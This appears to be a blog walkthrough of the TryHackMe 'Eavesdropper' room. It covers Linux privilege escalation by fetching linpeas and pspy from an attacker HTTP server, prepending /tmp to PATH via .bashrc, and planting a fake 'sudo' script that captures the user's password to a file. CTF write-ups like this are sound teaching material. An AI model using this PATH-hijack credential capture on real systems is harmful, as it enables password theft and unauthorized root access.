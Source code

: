 ```yaml
---
layout: post
title: "Eavesdropper"
date: 2023-03-04
ctf: true
excerpt: "Walkthrough for Eavesdropper on Try Hack Me"
tags: [Try Hack Me, Eavesdropper]
comments: false
---
```


# Eavesdropper

[Eavesdropper](https://tryhackme.com/room/eavesdropper) is a Medium difficulty room available on [TryHackMe](https://tryhackme.com). The main challenge focuses on your enumeration skills to find something you can listen to to uncover the root user's password.

## Hints

<details><summary><strong>Room Hints</strong></summary>
<ul>
    <li>Snoop the processes and see if you can find anything interesting.
    <li>Can you hijack something to gain access?
</ul>
</details>

## Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>

### Task 1 - Download Keys

For this task, make sure you Download the provided task files and save the SSH private key to a directory on your attacker box. Complete this task once this has been done.

![Eavesdropper download SSH key](/assets/img/Eavesdropper-1.png)


### Task 2 - Find the Flag

This task wants you to connect with the provided SSH keys and put your enumeration skills to the test to find a way to escalate privileges.

![Eavesdropper Task 2](/assets/img/Eavesdropper-2.png)

First, we need to change the permissions on the provided SSH key with:

`chmod 600 idrsa.id-rsa`

![Eavesdropper chmod ssh key](/assets/img/Eavesdropper-3.png)

Next, let's connect to the target machine as frank with:

`ssh frank@<target ip> -i idrsa.id-rsa`

![Eavesdropper ssh Frank](/assets/img/Eavesdropper-4.png)

Next, let's copy linpeas over to the target machine. On your attacker machine, start an http server with python with:

`python3 -m http.server`

![Eavesdropper python http server](/assets/img/Eavesdropper-5.png)

Next, on your target machine, navigate to the /tmp directory and run:

`wget http://<attack machine ip>:8000/linpeas.sh`

![Eavesdropper download linpeas](/assets/img/Eavesdropper-6.png)

Next, make it executable with:

`chmod +x linpeas.sh`

and then run it with:

`./linpeas.sh`

This did not return anything too useful. Let's follow this same process to move pspy64 over to the victim machine:

![Eavesdropper download pspy](/assets/img/Eavesdropper-7.png)

This returns some interesting inforamtion. It appears that there's an automated process that is logging in as frank via ssh, and then using cat to list the data in the /etc/shadow file:

![Eavesdropper pspy processes](/assets/img/Eavesdropper-8.png)

What is interesting about this is that it is running sudo without a full path, and it is currently located in /usr/bin, which is not the first entry in the $PATH variable.

![Eavesdropper cat PATH](/assets/img/Eavesdropper-9.png)

Let's modify this to add /tmp to the beginning by modifying the .bashrc file in frank's home directory.

![Eavesdropper modify .bashrc](/assets/img/Eavesdropper-10.png)

Next, we need to make an executable "sudo" file in the /tmp directory that can be used to capture credentials.

The code I used to capture the password is as follows:

```
#!/bin/bash
read -sp "Give me your password please: " password
echo $password > /tmp/password.txt
echo "\n"
```

![Eavesdropper malicious sudo](/assets/img/Eavesdropper-11.png)

Next, in a second terminal window, I created another SSH session and logged in as frank:

![Eavesdropper frank 2nd SSH session](/assets/img/Eavesdropper-12.png)

As you can see in the screenshot above, /tmp is the first listing in the $PATH variable. Let's see if there's any information in the /tmp/password.txt file as we would expect with:

`cat /tmp/password.txt`

![Eavesdropper frank password](/assets/img/Eavesdropper-13.png)

We now have frank's password. Copy the value in the password.txt file and go back to your first ssh session and run:

`sudo su`

This will not work in the 2nd session since we hijacked the path, as it will try to run our malicious "sudo" file again. You could also specify the /usr/bin/sudo from the 2nd session to run the "real" sudo executable.

![Eavesdropper root access](/assets/img/Eavesdropper-14.png)

Next, navigate to the root user's home directory and print out the contents of the flag.txt file with:

`cat flag.txt`

![Eavesdropper root flag](/assets/img/Eavesdropper-15.png)

</details>